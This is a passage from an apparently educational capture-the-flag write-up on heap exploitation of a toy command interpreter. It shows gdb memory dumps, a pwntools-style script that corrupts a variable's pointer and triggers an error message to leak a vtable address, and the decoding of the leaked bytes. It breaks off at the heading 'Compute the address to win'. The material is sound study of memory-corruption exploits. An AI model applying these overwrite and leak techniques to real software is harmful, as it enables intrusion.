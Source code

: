 Before looking into the heap to check what we did is correct, just a few notes about `bytes(reversed(bytes.fromhex(hex(long_var_ptr)[2:])))`:
* `long_var_ptr` is the address to the `print` pointer represented as an integer
* We use `hex` to convert it in hexadecimal format
* `[2:]` is used to remove the `0x` at the beginning of the string
* `bytes.fromhex` converts it into bytes to be sent to the program
* As we are in little-endian, we need the low-order byte to be first, so we reverse the order of the bytes using `bytes(reversed(...))`

We can now look the content of the heap:
```
gef➤  x/16wx 0x000055da5ddb6360+0x20+0x20+0x20+0x50+0x20
0x55da5ddb6430:	0x00000003	0x24676f6c	0x58726f76	0x58585858
0x55da5ddb6440:	0x58585858	0x58585858	0x58585858	0x58585858
0x55da5ddb6450:	0x58585858	0x58585858	0x58585858	0x58585858
0x55da5ddb6460:	0x5ddb62f0	0x000055da	0x00000021	0x00000000
```
The pointer of the variable changed so let's look where it points, and the value pointed to:
```
gef➤  x/gx 0x000055da5ddb62f0
0x55da5ddb62f0:	0x000055da4dc35be8
gef➤  x/gx 0x000055da4dc35be8
0x55da4dc35be8 <_ZTV12longVariable+16>:	0x000055da4dc303be
```
We can see that we have a pointer to a pointer that points to the `print` of the `longVariable` class.
### Leak the address of the `print` pointer
With the previous modification, if we print the value of the variable `$vor` in an arithmetic operation, we will have an "error" that will leak the value pointed by the variable:
```py
# Always create a new log
r = conn.recvuntil(b'> ')
print(r)
conn.send(b'log\n')

# Display the error to get $vor value
r = conn.recvuntil(b'> ')
print(r)
conn.send(b'$(($vor+$z))\n')

# And print it
r = conn.recvuntil(b'> ')
print(r)
```
When we run the script, we have the following output:
```
b'Invalid variable vor: \xe8\x8b\xe4\xba\x89U\n0\n> '
```
To see to what corresponds these bytes, you can convert them into a readable hexadecimal string:
```py
>>> r=b'Invalid variable vor: \xe8\x8b\xe4\xba\x89U\n0\n> '
>>> bytes(reversed(r.split(b': ')[1].split(b'\n')[0])).hex()
'5589bae48be8'
```
With gdb, we can see where this address points:
```
gef➤  x/gx 0x5589bae48be8
0x5589bae48be8 <_ZTV12longVariable+16>:	0x00005589bae433be
```
We got a pointer to `win`!
### Compute the address to `win`